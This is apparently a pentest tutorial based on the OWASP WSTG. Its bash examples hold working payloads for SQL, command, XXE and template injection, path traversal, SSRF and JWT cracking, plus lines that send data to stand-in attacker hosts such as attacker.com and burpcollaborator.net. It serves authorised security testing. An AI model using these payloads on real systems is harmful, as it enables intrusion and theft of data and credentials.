


# OWASP Web Security Testing Guide (WSTG) v4.2

> **Difficulty:** Beginner → Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [Introduction](#introduction)
2. [Testing Process Overview](#testing-process-overview)
3. [Environment Setup](#environment-setup)
4. [OTG-INFO — Information Gathering](#otg-info--information-gathering)
5. [OTG-CONF — Configuration & Deployment Management](#otg-conf--configuration--deployment-management)
6. [OTG-IDENT — Identity Management Testing](#otg-ident--identity-management-testing)
7. [OTG-AUTHN — Authentication Testing](#otg-authn--authentication-testing)
8. [OTG-AUTHZ — Authorization Testing](#otg-authz--authorization-testing)
9. [OTG-SESS — Session Management Testing](#otg-sess--session-management-testing)
10. [OTG-INPV — Input Validation Testing](#otg-inpv--input-validation-testing)
11. [OTG-ERR — Error Handling](#otg-err--error-handling)
12. [OTG-CRYPT — Cryptography Testing](#otg-crypt--cryptography-testing)
13. [OTG-BUSLOGIC — Business Logic Testing](#otg-buslogic--business-logic-testing)
14. [OTG-CLIENT — Client-Side Testing](#otg-client--client-side-testing)
15. [OTG-APIT — API Testing](#otg-apit--api-testing)
16. [Category Overview Diagram](#category-overview-diagram)
17. [Login Page Walkthrough](#login-page-walkthrough)
18. [WSTG ↔ OWASP Top 10 2021 Mapping](#wstg--owasp-top-10-2021-mapping)
19. [Progress Checklist](#progress-checklist)

---

## Introduction

The **OWASP Web Security Testing Guide (WSTG)** is the premier open-source reference for web application security testing. First published in 2003 as the OWASP Testing Guide, it reached its current major form as version 4.2 in 2021. It is maintained by the OWASP Foundation and hundreds of community contributors.

### Purpose

- Provide a **framework** for web application penetration testers
- Define a **common vocabulary** between testers and developers
- Supply **reproducible test cases** mapped to real vulnerabilities
- Align with other standards: OWASP Top 10, NIST SP 800-115, PCI DSS, ISO 27001

### How to Use WSTG

The guide is not a checklist to be blindly ticked — it is a **methodology**. You select test cases relevant to the application's attack surface, threat model, and engagement scope.

1. **Passive Testing** — observe without sending attack traffic (review headers, JS, source, certs)
2. **Active Testing** — send crafted requests, payloads, and probes
3. **Documentation** — record every finding with evidence (screenshots, request/response pairs)
4. **Reporting** — map findings to CVSS scores and remediation guidance

### Version History

| Version | Year | Notes |
|---------|------|-------|
| v1.0    | 2003 | Initial release |
| v2.0    | 2007 | Expanded categories |
| v3.0    | 2008 | Major rewrite |
| v4.0    | 2014 | Current category scheme introduced |
| v4.1    | 2020 | Cloud/API additions |
| v4.2    | 2021 | Current release — API testing, WSTG IDs |

> **Note:** WSTG v4.2 introduced stable test IDs (e.g., WSTG-INFO-01) replacing the older OTG-INFO-001 format. Both are still widely used; this guide uses the OTG prefix for brevity.

---

## Testing Process Overview

### Phases



### Pre-Engagement

Before any testing begins, define:

- **Scope** — domains, IP ranges, excluded endpoints
- **Rules of Engagement** — times, rate limits, notification contacts
- **Test account credentials** — at least one per privilege level
- **Threat model** — identify critical assets and trust boundaries

### Documentation Standards

Every finding should capture:

```
Title:         [WSTG Test ID] Short Description
Severity:      Critical / High / Medium / Low / Informational
CVSS Score:    e.g. 9.8 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
Description:   What the vulnerability is and how it works
Reproduction:
  1. Navigate to ...
  2. Send request: [raw HTTP]
  3. Observe response: [evidence]
Impact:        What an attacker can do
Remediation:   Specific fix guidance
References:    CVE, CWE, OWASP link
```

---

## Environment Setup

### Burp Suite Proxy Configuration

```bash
# Start Burp Suite Community/Pro
java -jar burpsuite_community.jar &

# Export Burp CA cert then install in Firefox:
# Preferences → Certificates → Import → PortSwigger CA

# Firefox proxy settings (or use FoxyProxy extension)
# Manual proxy: 127.0.0.1:8080 for HTTP and HTTPS
```

### OWASP ZAP Setup

```bash
# Install ZAP
sudo apt install zaproxy -y

# Start in daemon mode with API key
zap.sh -daemon -port 8090 -config api.key=changeme

# Run automated spider against target
curl "http://localhost:8090/JSON/spider/action/scan/?apikey=changeme&url=https://target.com"
```

### Browser Configuration

```bash
# Install Firefox certificate for Burp (Linux)
certutil -d sql:$HOME/.mozilla/firefox/*.default \
  -A -t "CT,," -n "BurpSuite" -i ~/burp_ca.der

# Chromium flags for testing (disable cert errors on lab)
chromium --ignore-certificate-errors --proxy-server=127.0.0.1:8080
```

### Essential Tooling

| Tool | Purpose | Install |
|------|---------|---------|
| Burp Suite | Proxy, scanner, intruder | `apt install burpsuite` |
| OWASP ZAP | Automated scanner | `apt install zaproxy` |
| Nikto | Web server scanner | `apt install nikto` |
| SQLMap | SQL injection automation | `apt install sqlmap` |
| WFuzz / ffuf | Fuzzer | `apt install wfuzz ffuf` |
| Gobuster / Feroxbuster | Directory brute-force | `apt install gobuster` |
| Nmap + NSE | Port/service enumeration | `apt install nmap` |
| curl / httpie | Manual HTTP requests | `apt install curl httpie` |
| jwt_tool | JWT analysis | `pip install jwt_tool` |
| testssl.sh | TLS/SSL testing | `git clone https://github.com/drwetter/testssl.sh` |

---

## OTG-INFO — Information Gathering

> **Note:** Information gathering is always the first phase. Never skip it — findings here shape every subsequent test.

### INFO-01 — Conduct Search Engine Discovery

```bash
# Google dorks for target
site:target.com filetype:pdf
site:target.com inurl:admin
site:target.com "index of /"
site:target.com ext:sql OR ext:bak OR ext:log

# Shodan CLI
shodan host <IP>
shodan search "hostname:target.com http.title:admin"

# theHarvester — emails, subdomains, IPs
theHarvester -d target.com -b google,bing,linkedin,shodan -l 500
```

### INFO-02 — Fingerprint Web Server

```bash
# Nmap service/version detection
nmap -sV -p 80,443,8080,8443 target.com

# Nmap HTTP NSE scripts
nmap --script http-headers,http-server-header,http-methods target.com

# Netcat banner grab
nc target.com 80 <<< $'HEAD / HTTP/1.0\r\n\r\n'

# curl verbose headers
curl -I -v https://target.com 2>&1 | grep -iE "server:|x-powered-by:|via:|x-aspnet"

# WhatWeb fingerprinting
whatweb -v https://target.com
```

### INFO-03 — Review Webserver Metafiles for Information Leakage

```bash
# Check robots.txt and sitemap
curl https://target.com/robots.txt
curl https://target.com/sitemap.xml
curl https://target.com/.well-known/security.txt

# Common sensitive paths from robots.txt
curl https://target.com/admin/
curl https://target.com/backup/
curl https://target.com/test/
```

### INFO-04 — Enumerate Application on Web Server

```bash
# Directory brute-force
gobuster dir -u https://target.com -w /usr/share/wordlists/dirb/big.txt \
  -x php,asp,aspx,jsp,html,bak,txt -t 50 -o gobuster_results.txt

# Feroxbuster (recursive)
feroxbuster -u https://target.com -w /usr/share/seclists/Discovery/Web-Content/raft-large-words.txt \
  --depth 3 --extensions php,html,txt --output ferox_results.txt

# ffuf for virtual hosts (vhost enumeration)
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
  -u https://target.com -H "Host: FUZZ.target.com" -fc 404
```

### INFO-05 — Review Web Page Content for Information Leakage

```bash
# Download and grep JS files for secrets
wget -r -A "*.js" https://target.com -P ./js_files/
grep -rE "(api_key|apikey|secret|password|token|AWS|AKIA)" ./js_files/

# Extract endpoints from JS
cat app.js | grep -oP '"/(api|v[0-9]+)/[^"]*"' | sort -u

# Check HTML comments
curl -s https://target.com | grep -oP '<!--.*?-->' | head -30
```

### INFO-06 — Identify Application Entry Points

Manually map all entry points using Burp Suite:

- Form fields (GET/POST parameters)
- URL path segments (`/users/{id}`)
- HTTP headers (Cookie, Referer, X-Forwarded-For)
- JSON/XML body parameters
- File upload endpoints
- WebSocket messages

```bash
# Crawl with ZAP and export sitemap
curl "http://localhost:8090/JSON/spider/action/scan/?apikey=changeme&url=https://target.com&maxDepth=5"
# Wait for completion then fetch results
curl "http://localhost:8090/JSON/spider/view/results/?apikey=changeme&scanId=0"
```

### INFO-07 — Map Execution Paths Through Application

Use Burp Suite's **Target → Site Map** to visualize the application tree. Enable **Passive Scanner** while browsing to automatically flag issues.

### INFO-08 — Fingerprint Web Application Framework

```bash
# Check cookies for framework identifiers
curl -I https://target.com | grep -i "set-cookie"
# PHPSESSID → PHP, JSESSIONID → Java/Spring, .ASPXAUTH → ASP.NET

# Wappalyzer CLI
wappalyzer https://target.com

# Check for framework-specific paths
curl -o /dev/null -s -w "%{http_code}" https://target.com/wp-login.php   # WordPress
curl -o /dev/null -s -w "%{http_code}" https://target.com/administrator/  # Joomla
curl -o /dev/null -s -w "%{http_code}" https://target.com/user/login      # Drupal
```

### INFO-09 — Map Application Architecture

Document the full stack:
- Load balancers (check `X-Served-By`, `Via`, `CF-Ray` headers)
- CDN presence (Cloudflare, Akamai, Fastly)
- Backend technologies
- Third-party integrations (payment, auth, analytics)

### INFO-10 — Collect Information via Application Traffic Analysis

```bash
# Passive analysis in Burp — enable Logger++
# Export all requests to CSV for offline analysis

# Extract unique parameters from all captured traffic
# In Burp: Target → Site Map → right-click → Copy all URLs
```

---

## OTG-CONF — Configuration & Deployment Management

### CONF-01 — Test Network/Infrastructure Configuration

```bash
# Full port scan
nmap -sS -p- --min-rate 5000 -oA nmap_full target.com

# Default credential check on admin panels
nmap --script http-default-accounts -p 80,443,8080 target.com

# Nikto scan
nikto -h https://target.com -ssl -output nikto_results.html -Format html
```

### CONF-02 — Test Application Platform Configuration

```bash
# Check HTTP methods
nmap --script http-methods --script-args http-methods.url-path='/' target.com
curl -X OPTIONS https://target.com -v 2>&1 | grep "Allow:"

# TRACE method (XST attack vector)
curl -X TRACE https://target.com -v
```

### CONF-03 — Test File Extension Handling

```bash
# Check how server handles unusual extensions
for ext in bak old tmp conf cfg log sql; do
  code=$(curl -o /dev/null -s -w "%{http_code}" "https://target.com/config.$ext")
  echo "$ext: $code"
done
```

### CONF-04 — Review Backup and Unreferenced Files

```bash
# Common backup file patterns
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt \
  -u https://target.com/FUZZ -e .bak,.old,.backup,.~,.swp,.orig -mc 200,301,302

# Git exposure check
curl https://target.com/.git/HEAD
curl https://target.com/.git/config
# If accessible, dump with git-dumper:
# git-dumper https://target.com/.git ./dumped_repo
```

### CONF-05 — Enumerate Infrastructure and Application Admin Interfaces

```bash
# Common admin panel paths
for path in admin administrator wp-admin manager console dashboard cpanel; do
  code=$(curl -o /dev/null -s -w "%{http_code}" "https://target.com/$path/")
  echo "$path: $code"
done
```

### CONF-06 — Test HTTP Methods

```bash
# Check for dangerous methods
curl -X PUT https://target.com/test.txt -d "test" -v
curl -X DELETE https://target.com/test.txt -v
# WebDAV check
nmap --script http-webdav-scan target.com
```

### CONF-07 — Test HTTP Strict Transport Security

```bash
curl -I https://target.com | grep -i "strict-transport-security"
# Should include: max-age=31536000; includeSubDomains; preload
```

### CONF-08 — Test RIA Cross-Domain Policy

```bash
curl https://target.com/crossdomain.xml
curl https://target.com/clientaccesspolicy.xml
# Permissive: <allow-access-from domain="*"/> is dangerous
```

### CONF-09 — Test File Permission

Check that configuration files, logs, and backups are not world-readable. Verify upload directories are not executable.

### CONF-10 — Test for Subdomain Takeover

```bash
# Enumerate subdomains
subfinder -d target.com | tee subdomains.txt
amass enum -passive -d target.com >> subdomains.txt

# Check each for NXDOMAIN or unclaimed services
while read sub; do
  dig +short "$sub" | head -1
done < subdomains.txt

# Check DNS CNAMEs pointing to unregistered services
# e.g., sub.target.com CNAME something.s3.amazonaws.com (bucket not created)
```

---

## OTG-IDENT — Identity Management Testing

### IDENT-01 — Test Role Definitions

Document all roles in the application:

| Role | Permissions | Test Account |
|------|-------------|-------------|
| Admin | Full CRUD, user management | admin@test.com |
| Manager | Read/write own department | manager@test.com |
| User | Read/write own data | user@test.com |
| Guest | Read-only public data | guest@test.com |

### IDENT-02 — Test User Registration Process

```bash
# Test username enumeration via registration
# Register with existing email — does it say "email already taken"?
curl -X POST https://target.com/register \
  -d "email=known@target.com&password=Test1234!" \
  -v 2>&1 | grep -A5 "HTTP/"

# Test weak password policy
curl -X POST https://target.com/register \
  -d "email=new@test.com&password=1234" -v
```

### IDENT-03 — Test Account Provisioning Process

Verify that account creation requires appropriate verification (email confirmation, admin approval) and that provisioning events are logged.

### IDENT-04 — Test Account Enumeration and Guessable User Account

```bash
# Username enumeration via login response timing/message
# Different message = user exists
curl -s -X POST https://target.com/login \
  -d "username=admin&password=wrongpass" | grep -iE "invalid|incorrect|not found"

# Timing-based enumeration
time curl -s -X POST https://target.com/login -d "username=admin&password=x"
time curl -s -X POST https://target.com/login -d "username=nonexistent&password=x"
```

### IDENT-05 — Test Username Policy

Check for predictable or enumerable usernames (sequential IDs, email-based patterns). Test whether the application reveals whether a username exists in password reset flows.

---

## OTG-AUTHN — Authentication Testing

### AUTHN-01 — Test Credentials Transported over an Encrypted Channel

```bash
# Verify login only works over HTTPS
curl -v http://target.com/login -d "user=test&pass=test"
# Should redirect to HTTPS or refuse connection

# Check HSTS header
curl -I https://target.com | grep -i "strict-transport"
```

### AUTHN-02 — Test Default Credentials

```bash
# Hydra brute-force with default cred list
hydra -L /usr/share/seclists/Passwords/Default-Credentials/default-passwords.csv \
  -P /usr/share/seclists/Passwords/Default-Credentials/default-passwords.csv \
  target.com http-post-form "/login:user=^USER^&pass=^PASS^:Invalid"

# Common defaults to test manually
# admin:admin, admin:password, admin:1234, root:root, guest:guest
```

### AUTHN-03 — Test Account Lockout Mechanism

```bash
# Send multiple failed attempts and check for lockout
for i in $(seq 1 20); do
  response=$(curl -s -X POST https://target.com/login \
    -d "username=admin&password=wrongpass$i")
  echo "Attempt $i: $(echo $response | grep -oP 'locked|blocked|too many' | head -1)"
done
```

### AUTHN-04 — Test for Bypassing Authentication Schema

```bash
# SQL injection in login
curl -X POST https://target.com/login \
  -d "username=admin'--&password=anything"

curl -X POST https://target.com/login \
  -d "username=' OR '1'='1&password=' OR '1'='1"

# Parameter pollution
curl -X POST https://target.com/login \
  -d "username=admin&username=attacker&password=wrongpass"
```

### AUTHN-05 — Test Remember Password Functionality

Inspect the "remember me" cookie:
- Is it tied to the session or persistent?
- Is it a guessable value (user ID, timestamp)?
- Is it protected with `Secure` and `HttpOnly` flags?

```bash
curl -I https://target.com/login -d "user=test&pass=test&remember=1" | grep -i "set-cookie"
```

### AUTHN-06 — Test Browser Cache Weakness

```bash
# Check cache-control on sensitive pages
curl -I https://target.com/account/profile | grep -iE "cache-control|pragma|expires"
# Should include: Cache-Control: no-store, no-cache
```

### AUTHN-07 — Test Password Policy

```bash
# Attempt passwords that violate expected policy
passwords=("a" "12345678" "password" "Password1" "P@ssw0rd!")
for p in "${passwords[@]}"; do
  code=$(curl -s -o /dev/null -w "%{http_code}" -X POST https://target.com/register \
    -d "email=test@test.com&password=$p")
  echo "Password '$p': HTTP $code"
done
```

### AUTHN-08 — Test Security Questions

Test if security questions are:
- Guessable from OSINT (mother's maiden name, city of birth)
- Bypassable by brute-force (no lockout on security questions)
- Disclosed in responses (e.g., the question answer is echoed)

### AUTHN-09 — Test Password Reset

```bash
# Check reset token predictability
# Request two resets in quick succession — are tokens sequential?
curl -X POST https://target.com/forgot-password -d "email=test@test.com"
# Check token in email, analyze entropy

# Host header injection in password reset
curl -X POST https://target.com/forgot-password \
  -H "Host: attacker.com" \
  -d "email=victim@target.com"
# If reset link uses Host header → token sent to attacker's domain
```

### AUTHN-10 — Test Multi-Factor Authentication

```bash
# MFA bypass attempts
# 1. Skip MFA step by directly accessing post-auth endpoint
curl -b "session=valid_pre_mfa_token" https://target.com/dashboard

# 2. Reuse a previously valid TOTP code (replay attack)
# 3. Test backup codes — are they long-lived? Can they be brute-forced?
# 4. Test response manipulation: change "mfa_required: true" → "false" in Burp

# OTP brute-force (if no lockout)
ffuf -w /tmp/otpcodes.txt -X POST -u https://target.com/mfa \
  -b "session=TOKEN" \
  -d "otp=FUZZ" -fr "Invalid code"
```

> **Warning:** MFA bypass via response manipulation is a critical vulnerability. Always test whether the MFA check happens server-side, not just client-side.

---

## OTG-AUTHZ — Authorization Testing

### AUTHZ-01 — Test Directory Traversal / File Include

```bash
# Path traversal payloads
curl "https://target.com/download?file=../../../etc/passwd"
curl "https://target.com/download?file=....//....//....//etc/passwd"
curl "https://target.com/download?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"

# Null byte injection (older PHP)
curl "https://target.com/page?template=../../../etc/passwd%00"

# Windows path traversal
curl "https://target.com/download?file=..\\..\\..\\windows\\win.ini"
```

### AUTHZ-02 — Test for Bypassing Authorization Schema

```bash
# Horizontal privilege escalation — access another user's data
# As user A (ID=100), access user B (ID=101):
curl -b "session=userA_session" "https://target.com/api/users/101/profile"
curl -b "session=userA_session" "https://target.com/api/invoices/999"

# Vertical privilege escalation — low-priv user accessing admin functions
curl -b "session=user_session" "https://target.com/admin/users"
curl -b "session=user_session" -X DELETE "https://target.com/api/users/1"
```

### AUTHZ-03 — Test for Privilege Escalation

```bash
# Modify role parameter in request
curl -X POST https://target.com/update-profile \
  -b "session=user_session" \
  -d "name=John&role=admin"

# JWT role tampering (if using HS256 with weak secret)
# Decode JWT, change role to "admin", re-sign with cracked secret
```

### AUTHZ-04 — Test for Insecure Direct Object References (IDOR)

```bash
# Sequential ID enumeration
for id in $(seq 1 50); do
  code=$(curl -o /dev/null -s -w "%{http_code}" \
    -b "session=user_session" "https://target.com/api/orders/$id")
  echo "Order $id: $code"
done

# GUIDs — harder to guess but still test for IDOR logic
curl -b "session=userA_session" \
  "https://target.com/api/documents/3f2504e0-4f89-11d3-9a0c-0305e82c3301"
```

### AUTHZ-05 — Test OAuth Weakness

```bash
# Check state parameter (CSRF protection)
# Remove state parameter from OAuth callback — should be rejected
curl "https://target.com/oauth/callback?code=AUTHCODE"  # no state param

# Redirect URI manipulation
# Register: https://target.com/callback
# Attempt: https://target.com/callback.attacker.com
curl "https://auth.provider.com/authorize?redirect_uri=https://target.com.attacker.com/callback"
```

---

## OTG-SESS — Session Management Testing

### SESS-01 — Test Cookie Attributes

```bash
# Inspect all cookies
curl -I https://target.com/login \
  -d "user=admin&pass=admin" 2>&1 | grep -i "set-cookie"

# Expected flags: Secure; HttpOnly; SameSite=Strict (or Lax)
# Missing HttpOnly → XSS can steal cookie
# Missing Secure → cookie sent over HTTP
# Missing SameSite → CSRF risk
```

### SESS-02 — Test Cookie Predictability

```bash
# Collect multiple session tokens
for i in $(seq 1 10); do
  curl -s -I https://target.com/login -d "user=test$i&pass=test" \
    | grep -i "set-cookie" | grep -oP "session=[^;]+"
done
# Analyze entropy — use Burp Sequencer for statistical analysis
```

### SESS-03 — Test Session Fixation

```bash
# 1. Obtain a pre-auth session token
pre_auth=$(curl -s -I https://target.com/ | grep -oP "session=[^;]+")

# 2. Force victim to use this token (via link, XSS, etc.)
# 3. Authenticate as victim
# 4. Check if session token changes post-login (it should)
curl -b "$pre_auth" -X POST https://target.com/login \
  -d "user=victim&pass=correctpassword" -I | grep -i "set-cookie"
```

### SESS-04 — Test Exposed Session Variables

Check that session tokens are not:
- In URL parameters (`?sessionid=abc123`)
- In HTTP Referer headers
- Logged in server logs
- Accessible in page source

### SESS-05 — Test CSRF

```bash
# Manual CSRF PoC — create an HTML file
cat > csrf_poc.html << 'EOF'
<html><body>
  <form action="https://target.com/api/change-email" method="POST">
    <input type="hidden" name="email" value="attacker@evil.com">
  </form>
  <script>document.forms[0].submit();</script>
</body></html>
EOF

# Check for CSRF token in forms
curl -s https://target.com/settings | grep -iE "csrf|_token|nonce"

# Test token absence — submit without CSRF token
curl -X POST https://target.com/api/change-email \
  -b "session=victim_session" \
  -d "email=attacker@evil.com"
```

### SESS-06 — Test Session Timeout

```bash
# Wait for expected timeout period (e.g., 15 minutes inactivity)
# Then attempt to use the old session
sleep 900
curl -b "session=old_session_token" https://target.com/api/profile
# Should return 401 or redirect to login
```

### SESS-07 — Test Session Logout Mechanism

```bash
# Capture session token, logout, then try to reuse
SESSION=$(curl -s -c cookies.txt -X POST https://target.com/login \
  -d "user=admin&pass=admin" | grep -oP "session=[^;]+")

# Logout
curl -b cookies.txt https://target.com/logout

# Try to reuse
curl -b "session=$SESSION" https://target.com/api/profile
# Should be rejected — session must be invalidated server-side
```

### SESS-08 — Test for Session Puzzling (Session Variable Overloading)

Test whether the same session variable is reused for different purposes across the application, allowing attackers to satisfy one check by exploiting another flow.

### SESS-09 — Test JSON Web Tokens

```bash
# Install jwt_tool
pip install jwt_tool

# Analyze a JWT
jwt_tool eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJ1c2VyMTIzIn0.signature

# Test algorithm confusion: RS256 → HS256 with public key
jwt_tool TOKEN -X a -pk public.pem

# Test "none" algorithm
jwt_tool TOKEN -X n

# Brute-force weak HMAC secret
jwt_tool TOKEN -C -d /usr/share/wordlists/rockyou.txt

# Crack with hashcat
echo "TOKEN" > jwt.txt
hashcat -a 0 -m 16500 jwt.txt /usr/share/wordlists/rockyou.txt
```

> **Warning:** JWT "alg:none" and algorithm confusion attacks are critical. Any JWT that accepts `"alg":"none"` allows an attacker to forge arbitrary tokens with no signature.

---

## OTG-INPV — Input Validation Testing

### INPV-01 — Test for Reflected XSS

```bash
# Basic XSS probes
curl "https://target.com/search?q=<script>alert(1)</script>"
curl "https://target.com/search?q="
curl "https://target.com/search?q=javascript:alert(1)"

# Context-aware payloads
# In HTML attribute: "><script>alert(1)</script>
# In JS string: ';alert(1)//
# In URL: javascript:alert(1)

# Automated with dalfox
dalfox url "https://target.com/search?q=FUZZ"
```

### INPV-02 — Test for Stored XSS

```bash
# Inject into persistent fields: username, bio, comment, address
curl -X POST https://target.com/api/comments \
  -b "session=user_session" \
  -H "Content-Type: application/json" \
  -d '{"comment":"<script>fetch(\"https://burpcollaborator.net/\"+document.cookie)</script>"}'

# Then retrieve the page as a victim/admin user
curl -b "session=admin_session" https://target.com/admin/comments
```

### INPV-03 — Test for HTTP Verb Tampering

```bash
curl -X GET https://target.com/api/admin/users    # might be blocked
curl -X HEAD https://target.com/api/admin/users   # might bypass ACL
curl -X POST https://target.com/api/admin/users   # might have different controls
```

### INPV-04 — Test for HTTP Parameter Pollution

```bash
curl "https://target.com/transfer?to=attacker&to=victim&amount=1000"
curl -X POST https://target.com/transfer \
  -d "to=attacker&amount=1000&to=victim"
```

### INPV-05 — Test for SQL Injection

```bash
# Manual detection
curl "https://target.com/products?id=1'"
curl "https://target.com/products?id=1 AND 1=1"
curl "https://target.com/products?id=1 AND 1=2"

# Automated with sqlmap
sqlmap -u "https://target.com/products?id=1" --dbs --batch

# POST parameter
sqlmap -u "https://target.com/login" \
  --data "username=admin&password=test" \
  -p username --level=5 --risk=3 --dbs --batch

# From Burp request file
sqlmap -r /tmp/request.txt --dbs --batch --threads=5

# Blind time-based
sqlmap -u "https://target.com/products?id=1" \
  --technique=T --dbms=mysql --batch
```

### INPV-06 — Test for LDAP Injection

```bash
# LDAP injection payloads in login
curl -X POST https://target.com/login \
  -d "username=*&password=anything"  # wildcard match all users

curl -X POST https://target.com/login \
  -d "username=admin)(&password=anything"  # filter bypass
```

### INPV-07 — Test for ORM Injection

Test ORM-specific operators in parameters used to build database queries (e.g., Django `__contains`, `__regex`, MongoDB `$where`).

### INPV-08 — Test for XML Injection / XXE

```bash
# Test for XXE in XML input
curl -X POST https://target.com/api/parse-xml \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>'

# Out-of-band XXE (blind)
curl -X POST https://target.com/api/parse-xml \
  -H "Content-Type: application/xml" \
  -d '<?xml version="1.0"?>
<!DOCTYPE root [
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<root/>'
```

### INPV-09 — Test for SSI Injection

```bash
# Server-Side Include payloads
curl "https://target.com/greet?name=<!--%23exec%20cmd=%22id%22-->"
curl "https://target.com/greet?name=<!--%23include%20virtual=%22/etc/passwd%22-->"
```

### INPV-10 — Test for XPath Injection

```bash
# XPath bypass in login
curl -X POST https://target.com/login \
  -d "username=' or '1'='1&password=' or '1'='1"

# Extract node count
curl -X POST https://target.com/login \
  -d "username=' or count(/)=1 or '1'='2&password=x"
```

### INPV-11 — Test for IMAP/SMTP Injection

Test webmail-style applications that pass user input to mail servers. Inject IMAP/SMTP commands into email, subject, or folder name fields.

### INPV-12 — Test for Code Injection

```bash
# PHP code injection
curl "https://target.com/page?lang=english;phpinfo()"

# Python eval injection
curl -X POST https://target.com/calculate -d "expr=__import__('os').system('id')"

# Node.js (Deserialization)
# Craft malicious serialized object for node-serialize
```

### INPV-13 — Test for Command Injection (OS)

```bash
# Command injection payloads
curl "https://target.com/ping?host=127.0.0.1;id"
curl "https://target.com/ping?host=127.0.0.1|id"
curl "https://target.com/ping?host=127.0.0.1%0Aid"
curl "https://target.com/ping?host=\`id\`"
curl "https://target.com/ping?host=$(id)"

# Blind command injection — time-based
time curl "https://target.com/ping?host=127.0.0.1;sleep 5"

# Out-of-band
curl "https://target.com/ping?host=127.0.0.1;curl http://attacker.com/\$(whoami)"
```

### INPV-14 — Test for Buffer Overflow

Send excessively long input strings to binary or C-based components:

```bash
python3 -c "print('A'*10000)" | curl -X POST https://target.com/api -d @-
```

### INPV-15 — Test for HTTP Splitting/Smuggling

```bash
# HTTP Request Smuggling (CL.TE)
curl -X POST https://target.com/ \
  -H "Transfer-Encoding: chunked" \
  -H "Content-Length: 6" \
  -d "0\r\n\r\nG"

# Use smuggler.py for automated detection
python3 smuggler.py -u https://target.com/
```

### INPV-16 — Test for HTTP Deserialization

```bash
# Java deserialization — send ysoserial payload
java -jar ysoserial.jar CommonsCollections6 'curl http://attacker.com/' | \
  base64 | curl -X POST https://target.com/deserialize \
  -H "Content-Type: application/x-java-serialized-object" --data-binary @-

# .NET ViewState tampering
# Python pickle deserialization in Flask apps
```

### INPV-17 — Test for Server-Side Template Injection (SSTI)

```bash
# Detection payloads (evaluate math expressions)
curl "https://target.com/greet?name={{7*7}}"        # Jinja2/Twig → 49
curl "https://target.com/greet?name=\${7*7}"        # FreeMarker/Velocity → 49
curl "https://target.com/greet?name=<%= 7*7 %>"     # ERB/EJS → 49
curl "https://target.com/greet?name=#{7*7}"         # Ruby

# Exploitation (Jinja2 — Python RCE)
curl "https://target.com/greet?name={{config.__class__.__init__.__globals__['os'].popen('id').read()}}"

# Use tplmap for automated testing
tplmap -u "https://target.com/greet?name=*"
```

### INPV-18 — Test for Server-Side Request Forgery (SSRF)

```bash
# Basic SSRF to internal service
curl "https://target.com/fetch?url=http://169.254.169.254/latest/meta-data/"  # AWS IMDSv1
curl "https://target.com/fetch?url=http://192.168.1.1/admin"
curl "https://target.com/fetch?url=file:///etc/passwd"

# SSRF bypass techniques
curl "https://target.com/fetch?url=http://127.0.0.1:8080"
curl "https://target.com/fetch?url=http://[::1]:8080"
curl "https://target.com/fetch?url=http://0177.0.0.1"   # octal localhost
curl "https://target.com/fetch?url=http://2130706433"    # decimal localhost

# Blind SSRF — use Burp Collaborator or interactsh
curl "https://target.com/fetch?url=http://your-collaborator-id.burpcollaborator.net"
```

---

## OTG-ERR — Error Handling

### ERR-01 — Test for Improper Error Handling

```bash
# Trigger errors with invalid input
curl "https://target.com/api/users/99999999"          # Non-existent resource
curl "https://target.com/api/users/abc"               # Type error
curl -X POST https://target.com/api/data \
  -H "Content-Type: application/json" -d "{{invalid}}" # Malformed JSON

# Check for stack traces, internal paths, framework versions in response
# Look for: Exception, Traceback, at com.example., NullPointerException
```

### ERR-02 — Test for Stack Traces

```bash
# Inject null values into all parameters
for param in id name email user page; do
  echo "Testing param: $param"
  curl -s "https://target.com/search?$param=" | grep -iE "exception|traceback|error|line [0-9]"
done
```

> **Warning:** Stack traces in production expose internal file paths, class names, framework versions, and database schemas — all valuable to an attacker for targeted exploitation.

---

